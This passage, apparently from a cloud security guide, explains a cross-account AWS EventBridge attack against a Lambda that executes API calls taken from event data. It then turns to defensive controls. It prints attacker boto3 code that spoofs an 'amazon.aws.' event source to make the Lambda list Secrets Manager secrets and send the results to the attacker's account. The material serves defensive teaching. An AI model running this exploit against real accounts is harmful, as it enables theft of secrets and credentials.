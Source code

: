 # Events with source starting with`aws.`will be denied (aws reserved).
# And so, the attacker uses amazon.aws. to make it look legit.
events_client.put_events(
Entries=[{
'Source': 'amazon.aws.partner.config.response',
'DetailType': 'Configuration Result',
'Detail': json.dumps({
'request_id': event['detail'].get('request_id'),
'status': 'success',
'result': json.dumps(response)
}),
'EventBusName': 'arn:aws:events:us-east-1:ACCOUNT-B-ID:event-bus/partner-bus'
}]
)
return {
'statusCode': 200,
'body': 'Configuration processed successfully'
}
except Exception as e:
# Log error and notify partner
print(f"Error processing configuration: {str(e)}")
# Error handling code...
The attacker in Account B exploits this vulnerability that blindly executes AWS API calls based on event data, allowing an attacker to access sensitive information like Secrets Manager contents and exfiltrate it through the pre-established feedback loop back to their own account:
# Attacker code in Account B
events_client = boto3.client('events')
# Exploit the vulnerable Lambda to read secrets
events_client.put_events(
Entries=[{
'Source': 'amazon.aws.partner.config', # Trusted source
'DetailType': 'Configuration Update',
'Detail': json.dumps({
'resource_type': 'secretsmanager', # AWS service to target
'action': 'list_secrets', # AWS API to call
'parameters': '', # No parameters needed for this API call
'request_id': 'exfil-1' # To track the response
}),
'EventBusName': 'arn:aws:events:us-east-1:ACCOUNT-A-ID:event-bus/incoming-events'
}]
)
This attack abuses trust relationships between partner accounts, with the vulnerable Lambda function acting as a proxy that executes commands with its own permissions. The attacker can access any AWS service the Lambda has permissions for, effectively bypassing IAM restrictions by leveraging the Lambda's execution role.
## Implementing Effective Security Controls
To protect against these attack patterns, we recommend implementing security controls at multiple levels:
### Organization-Level Controls
**1\. Service Control Policies (SCPs)**SCPs can prevent unauthorized cross-account event flows: